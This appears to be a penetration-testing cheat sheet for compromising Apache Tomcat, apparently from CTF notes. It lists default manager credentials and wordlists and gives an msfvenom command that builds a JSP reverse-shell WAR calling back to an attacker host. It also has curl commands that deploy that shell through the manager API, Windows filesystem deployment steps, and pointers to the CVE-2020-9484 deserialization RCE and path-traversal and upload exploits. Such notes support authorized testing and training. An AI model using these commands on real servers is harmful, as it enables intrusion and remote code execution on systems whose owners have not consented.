 # tomcat

## Tomcat Files

```bash
# path
/manager/
/manager/status
/host-manager/

# main config paths
/etc/tomcat{X}
/usr/share/tomcat{X}/etc/
/etc/tomcat{X}/conf/
/etc/tomcat/conf/
C:\Program Files\Apache Software Foundation\Tomcat 9.0\conf\
C:\xampp\tomcat\conf\

# files
conf\tomcat-users.xml
```

## Check for default creds using

use nikto to scan for default creds

```bash
tomcat:tomcat
tomcat:s3cret

/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt 
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
```

## Shell

```bash
# via GUI
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war -o shell.war

```

### Deploying Using CLI (.war) - using manager

```bash
## no gui, limited perms access
roles="admin-gui,manager-script"
As we don't have `manager-gui` permission, we cant login to manager-gui

https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#limitations
https://tomcat.apache.org/tomcat-9.0-doc/host-manager-howto.html

# generate .war shell
$ curl -u USER:'PASS' http://IP:PORT/manager/text/list
$ curl -u USER:'PASS' http://IP:PORT/manager/text/deploy?path=/kashz -T shell.war
$ curl -u USER:'PASS' http://IP:PORT/manager/text/undeploy?path=/kashz
```

### Deploying without creds - using filesystem (Windows)

[Reference link](https://stackoverflow.com/questions/5109112/how-to-deploy-a-war-file-in-tomcat-7)

1. generate `shell.war`
2. copy to `%CATALINA_HOME%\webapps\shell.war`
3. run `%CATALINA_HOME%\bin\startup.bat`
4. .war is deployed.
5. invoke using `curl http://IP:PORT/shell/`

## Tomcat/9.0.31

{% embed url="https://github.com/iamkashz/ctf-scripts/blob/main/HTB/monitors-tomcat-deserialization-rce.sh" %}

```bash
# Path Traversal via reverse proxy mapping
| Tomcat will threat the sequence /..;/ as /../ and normalize the path while reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is.
https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/

# all version prior to April 2020
# CVE-2020-9484 | Deserialization of Untrusted Data RCE
| ROME method to generate .jar
    | ctf-scripts/tomcat-v9.0.31-deserialization-rce.sh (msf ripoff)
    | (msf) exploit/linux/http/apache_ofbiz_deserialiation
| CommonsCollections2 method to generate .jar
    | https://github.com/PenTestical/CVE-2020-9484 - uses 
    | manual: https://romnenko.medium.com/apache-tomcat-deserialization-of-untrusted-data-rce-cve-2020-9484-afc9a12492c4
```

## Tomcat JSP Upload Bypass / RCE

* https://www.exploit-db.com/exploits/42966
* https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2020/06/12/deconstructing_apach-emYD.html